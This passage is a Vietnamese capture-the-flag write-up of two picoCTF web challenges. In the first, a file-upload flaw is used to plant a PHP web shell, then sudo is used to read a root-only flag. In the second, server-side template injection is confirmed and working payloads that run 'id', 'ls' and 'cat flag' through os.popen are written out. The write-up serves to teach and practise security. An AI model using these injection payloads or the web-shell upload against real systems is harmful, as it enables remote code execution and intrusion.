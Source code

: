 Tới đây nghĩ đến ưu tiên đầu tiên là lỗ hổng upload file rồi đúng không.
### Khai thác
Thử upload 1 file hình ảnh đúng với tiêu chuẩn lên làm add.
![alt text](image-13.png)
Vào burpsuite để fuzzz nó nào.
![alt text](image-14.png)
Tới đây thử đổi thành đuôi php để có thể upload web shell lên thử.
![alt text](image-15.png)
Tiến hành fuzz
![alt text](image-16.png)
À với challenge này đề bài yêu cầu phải ở trạng thái root mới có thể đọc được flag ẩn của nó.
Bằng cách sử dụng lệnh sudo <cmd> để thực thi ở trạng thái root
![alt text](image-17.png)
Đã ở trạng thái root
Tới đây list danh sách xem cờ ẩn.
![alt text](image-18.png)
Trích xuất cờ
![alt text](image-19.png)
> Flags: picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}
### Kết luận
Những gì đã học được
> Thực thi lỗ hổng Upload File để trích xuất dữ liệu thông qua quyền /root.
## SSTI1
### Tổng quan
> Người đóng góp : <b>tr1ck3r</b> <br>
> Được giải quyết bởi: <b>bl4ck0ut</b> <br>
> 2,833 giải quyết / 100 point <br>
> Độ khó chung đối với chúng tôi (từ 1 - 10 sao): ★☆☆☆☆☆☆☆☆☆
### Lý lịch
Tôi đã tạo một trang web tuyệt vời, nơi bạn có thể thông báo bất cứ điều gì bạn muốn! Hãy thử xem!
![alt text](image-20.png)
### Liệt kê
![alt text](image-21.png)
Mình thấy ô input mình thử nhâp 1 giá trị thử rồi submit xem sao.
![alt text](image-22.png)
Sau khi nhập giá trị nó reflected lại và cũng tên challenge xác nhận đây là 1 lổ hổng SSTI
Đưa payload {{7*7}}
![alt text](image-23.png)
Được rồi.
### Khai thác
Thực thi payload
<b>{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}</b>
![alt text](image-24.png)
<b>{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}</b>
![alt text](image-25.png)
<b>{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}</b>
![alt text](image-26.png)
> Flags: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}
### Kết luận
